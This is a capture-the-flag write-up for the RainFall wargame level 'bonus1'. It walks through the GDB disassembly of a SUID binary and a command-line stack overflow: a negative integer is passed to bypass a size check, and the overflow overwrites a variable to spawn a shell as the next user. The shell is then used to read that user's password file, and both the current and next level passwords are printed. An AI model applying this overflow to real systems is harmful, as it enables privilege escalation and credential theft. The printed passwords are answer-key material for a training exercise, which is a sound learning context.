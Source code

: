 Login as `bonus1`.
```shell
┌──$ [~/42/2021/rainfall/level9]
└─>  ssh 192.168.0.19 -p 4242 -l bonus1
bonus1@192.168.0.19's password: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
A `SUID` executable is located in the home directory.
```shell
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```
Program segfault at run.
```shell
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
```
By examining the binary in GDB, it has conditional call to `execl("/bin/sh", "sh", 0)`.
```gdb
(gdb) disass main
Dump of assembler code for function main:
   [...]
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   [...]
End of assembler dump.
```
In order to get there, the memory address `0xbffff32c` must be equal to `0x574f4c46` (WOLF).
Above this check, there is call to `atoi()` and check of result less or equal to 9.  Otherwise it return 1 and terminate.
```gdb
(gdb) disass main
Dump of assembler code for function main:
   [...]
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   [...]
End of assembler dump.
```

At start of `main()` 64 bytes are reserved on stack to hold variables.
```gdb
(gdb) x/i main+6
   0x804842a <main+6>:	sub    esp,0x40
gdb-peda$ x/32wx $esp
            # ESP
0xbffff6b0:	0xbffff8d2	0x08049764	0x00000003	0x080482fd
                        # DST[40]
0xbffff6c0:	0xb7fd13e4	0x00000014	0x08049764	0x080484d1
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
                                                # INTEGER
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x80000030
0xbffff6f0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
0xbffff700:	0x00000003	0xbffff794	0xbffff7a4	0xb7fdc858
0xbffff710:	0x00000000	0xbffff71c	0xbffff7a4	0x00000000
0xbffff720:	0x0804821c	0xb7fd0ff4	0x00000000	0x00000000
```
Considering that `atoi()` returns an integer 4 bytes, 40 bytes are reserved for `dst` array.
```
ESP     = 0xbffff6b0
integer = 0xbffff6ec $esp+0x3c
dst[40] = 0xbffff6c4 $esp+0x14
```
In order to overwite integer value, `av[2]` must have 40 bytes followed by value `0x574f4c46`.
```shell
bonus1@RainFall:~$ /home/user/bonus1/bonus1 -2147483600 $(python -c "import struct; print('Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A' + struct.pack('I', 0x574f4c46))")
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
